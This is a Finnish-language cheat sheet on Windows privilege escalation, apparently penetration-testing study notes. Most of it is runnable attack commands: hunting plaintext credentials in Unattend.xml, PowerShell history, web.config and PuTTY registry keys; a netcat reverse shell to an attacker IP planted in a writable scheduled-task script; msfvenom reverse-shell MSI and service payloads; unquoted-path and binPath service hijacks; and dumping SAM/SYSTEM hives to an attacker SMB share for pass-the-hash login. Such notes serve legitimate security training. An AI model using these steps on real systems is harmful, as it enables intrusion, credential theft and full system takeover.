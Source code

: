 ## Privilege Escalation: Windows

Windowsissa tavalliset käyttäjät kuuluvat Users -käyttäjäryhmään, administraattorit Administrators -käyttäjäryhmään.

Erityiskäyttäjätunnukset:

SYSTEM / LocalSystem: Käyttöjärjestelmän käyttämä tunnus käyttöjärjestelmän sisäisiin toimintoihin. Adminejakin korkeammat oikeudet.

Local Service: Oletuskäyttäjä "minimioikeuksilla" Windowsin palvelujen ajamiseen, anonyymit yhteydet verkon yli.

Network Service: Sama kuin yllä, mutta käyttää tietokoneen tunnuksia autentikoitumiseen verkon yli.

**Selkokielisten tunnusten etsimispaikkoja**

WDS:llä asennetut "Unattended Windows Installations" saattavat jättää admin-tunnuksia näihin sijainteihin:
```bash
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```
Powershell-historia (cmd.exe ajettuna):
```cmd
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

Tallennetut käyttäjätunnukset:
```cmd
cmdkey /list
```
Jos löytyy kokeilemisen arvoisia, niin:
```cmd
runas /savecred /user:USERNAME cmd.exe
```
IIS konfiguraatioon tallennetut tunnukset:
```cmd
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```
```cmd
type C:\inetpub\wwwroot\web.config | findstr connectionString
```
PuTTY:n tallentamat Proxy-tunnukset:
```cmd
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
**Ajastetut tehtävät**

Listaa ajastetut tehtävät:
```cmd
schtasks
```
Lisätietoja yksittäisestä tehtävästä:
```cmd
schtasks /query /tn *TaskName* /fo list /v
```
Task to run kertoo ajettavan tiedoston (esim. .bat scripti), Task as user kertoo käyttäjätunnuksen, jolla tehtävä ajetaan. Alla olevalla komennolla tarkistetaan ko. tiedoston kirjoitusoikeudet, ja jos nykyisellä käyttäjällä voidaan kirjoittaa, niin voidaan muokata scriptiä, ja se pyörähtää Task as user-tunnuksella. 
```cmd
icacls C:\polku\tiedostoon\scripti.bat
```
Jos esim. \USERS -käyttäjillä kirjoitusoikeudet, voidaan tehdä reverse shell netcatilla:
```cmd
echo c:\polku\netcatiin\nc64.exe -e cmd.exe *Hyökkääjän IP* 9999 > C:\polku\scriptiin\scripti.bat
```
Netcat -kuuntelumoodiin omalle koneelle porttiin 9999:
```cmd
nc -lvp 9999
```
Seuraavan ajastuksen yhteydessä aukeaa shell "Task as user" -tunnuksella.

**AllwaysInstallElevated**

Windowsin asennustiedostot .msi käynnistyvät oletuksena käyttäjän oikeuksilla, mutta voidaan konfiguroida käynnistymään myös korkeammilla oikeuksilla. Jos **molemmat** alla olevat rekisteriarvot saadaan päälle onnistuneesti:
```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
```
```cmd
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
niin voidaan luoda msfvenomilla .msi payload:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=*Hyökkääjän IP* LPORT=*Hyökkääjän portti* -f msi -o payload.msi
```
ja vastaavilla asetuksilla Metasploit Handler vastaanottamaan yhteys. Kun payload.msi on siirretty kohteelle, ajetaan ao. komento ja reverse shell pitäisi aueta:
```cmd
msiexec /quiet /qn /i C:\polku\kohteeseen\payload.msi
```
## Servicet

Servicet pyörivät Service Control Managerin (SCM) kautta. Jokaisella servicellä on vastaava ohjelma, joka ajetaan. Servicestä tietoa esim.
```cmd
sc qc apphostsvc
```
BINARY_PATH_NAME = ohjelman polku, SERVICE_START_NAME = tunnus, jolla service käynnistetään.

Tarkistetaan ohjelman oikeudet icaclsilla:
```cmd
icacls C:\polku\ohjelmaan\service.exe
```
Jos käyttäjällä muokkausoikeudet (M)/(F), voidaan uudelleenkirjoittaa ko. ohjelma ja se ajetaan servicen ajavalla käyttäjätunnuksella. msfvenom payload esim:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=*Hyökkääjän IP* LPORT=*Hyökkääjän portti* -f exe-service -o service.exe
```
Siirretään päälle, ja annetaan oikeudet:
```cmd
icacls service.exe /grant Everyone:F
```
Jonka jälkeen netcat kuuntelija --> reverse shell, kun service käynnistyy uudelleen.

**Unquoted Service Paths**

Jos servicen BINARY_PATH_NAME ei ole laitettu oikein heittomerkkeihin, syntyy välilyönneistä mahdollisuus hyväksikäytölle. Esim. polun C:\MyPrograms\SFTP Siirto Työkalu\run.exe yrittää SCM arvata oikeaa polkua järjestyksessä:

C:\MyPrograms\SFTP.exe, argumentit "Siirto", "Työkalu\run.exe"

C:\MyPrograms\SFTP Siirto.exe, argumentit "Työkalu\run.exe"

C:\MyPrograms\SFTP Siirto Työkalu\run.exe

Jos käyttäjällä on MyPrograms -kansioon kirjoitusoikeudet, voidaan luoda msfvenomilla payload nimellä SFTP.exe ja viedä se MyPrograms -kansioon, jolloin servicen uudelleenkäynnistyessä se suoritetaan serviceen asetetulla käyttäjätunnuksella.

**Servicen config-muutosoikeudet**

Jos käyttäjä voi muuttaa servicen konfigurointia, voi hyökkääjä muuttaa suoritettavan komennon toiseksi ja saada tätä kautta ajettua omaa koodia servicen käynnistystunnuksena. Apuna voidaan käyttää windowsin AccessChk -työkalua. Tarkistetaan servicen configurointioikeudet:
```cmd
C:\polku\accesschk64.exe -qlc servicen_nimi
```
Jos havaitaan, että konffeja voidaan muuttaa: luodaan payload, tuodaan kohteelle, annetaan ajo-oikeudet:
```cmd
icacls C:\polku\payload.exe /grant Everyone:F
```
jonka jälkeen muutetaan config ohjaamaan payloadiin (huomaa välilyönnit):
```cmd
sc config servicen_nimi binPath= "C:\polku\payload.exe" obj= LocalSystem
```

## Käyttäjän privilege
```cmd
whoami /priv
```
Lista vaarallisista privilegeistä: https://github.com/gtworek/Priv2Admin

**SeBackup / SeRestore**

Jos käyttäjällä SeBackup / SeRestore oikeudet, voidaan esim. kopioida SAM ja SYSTEM rekisteritiedot ja saada Administratorin salasana-hash käyttöön. Command promt auki Run as administrator -> 
```cmd
reg save hklm\system C:\polku\system.hive
```
```cmd
reg save hklm\sam C:\polku\sam.hive
```
Tiedostot voidaan siirtää hyökkääjän koneelle esim. käynnistämällä hyökkääjän koneelle pieni SMB-palvelin ja kopioimalla tiedostot sinne. Esim. ohjataan public -niminen kansio ja ohjataan se hyökkääjän koneella share-kansioon, ja käyttäjätunnus+salasana korkatulta Windows-käyttäjältä:
```cmd
mkdir share
```
```cmd
python3.9 /opt/impacket/examples/smbserver.py -smb2support -username KÄYTTÄJÄ -password SALASANA public share
```
Uhrin koneella kopiointi:
```cmd
copy C:\polku\sam.hive \\HYÖKKÄÄJÄN_IP\public\
```
```cmd
copy C:\polku\system.hive \\HYÖKKÄÄJÄN_IP\public\
```
Tiedostoista hashit:
```cmd
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```
Ja kirjautuminen hasheja käyttämällä:
```sh
python3.9 /opt/impacket/examples/psexec.py -hashes q1w2e3r4t5y6u7iu:9o8i7u6y5t4r3e2w12q administrator@UHRIN_IP
```
## Työkaluja

Enumerointi:
WinPEAS - https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS

PrivescCheck - https://github.com/itm4n/PrivescCheck

https://github.com/bitsadmin/wesng
